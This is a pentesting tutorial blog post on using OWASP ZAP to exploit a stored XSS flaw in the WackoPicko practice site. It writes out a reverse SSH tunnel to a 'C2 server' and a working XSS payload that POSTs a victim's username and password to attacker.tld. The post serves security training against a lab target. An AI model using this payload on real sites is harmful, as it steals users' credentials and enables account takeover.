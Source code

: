 +++
author = "Anthony Cozamanis"
title = "Exploiting Cross-Site Scripting to Capture Passwords With OWASP ZAP"
date = "2023-05-13"
description = "In this brief piece, you'll learn about using OWASP ZAP to obtain passwords through XSS."
tags = [
    "owsap",
    "zap",
    "pentesting",
]
categories = [
    "themes",
    "syntax",
]
series = ["OWASP ZAP"]
aliases = ["xss-with-zap"]
+++

WackoPicko is a website that includes common vulnerabilities, including a stored XSS vulnerability in its blog comment feature. This vulnerability can be exploited to retrieve a victim's username and password and subsequently gain access to their account by utilising OWASP ZAP.

![e8bba8fb1f1846b61738e8c2bca29515.png](/img/e8bba8fb1f1846b61738e8c2bca29515.png)

- Access your remote C2 server via SSH and modify `/etc/ssh/sshd_config` so the following are enabled:
```
AllowTcpForwarding yes
GatewayPorts yes
```
- Restart sshd with systemd:
```
sudo systemctl restart ssh
```
- From your attacking machine, create a tunnel via SSH from the remote server so that anything that hits port 38193 will be redirected to the attacker's instance of ZAP
```
ssh -N -R 38193:localhost:38193 user@attacker.tld
```
- Going back to ZAP, open the Options menu and go to the go to "Callback Address" entering the following:

![c0189e9bd3e534db36df492376038540.png](/img/c0189e9bd3e534db36df492376038540.png)

- Go back to the Guestbook and submit the following payload in a blog comment, inserting your Test URL:

```js
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('http://attacker.tld:38193/ZapTest',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
- This script will make anyone who views the comment issue a POST request to `http://attacker.tld:38193/ZapTest` containing their username and password.
- Go back to the Callbacks tab (which you may need to add)
- Take a note of the value of the victim's username and password in the POST body.

![491e3b93af3f65d31ff2d53597aba78f.png](/img/491e3b93af3f65d31ff2d53597aba78f.png)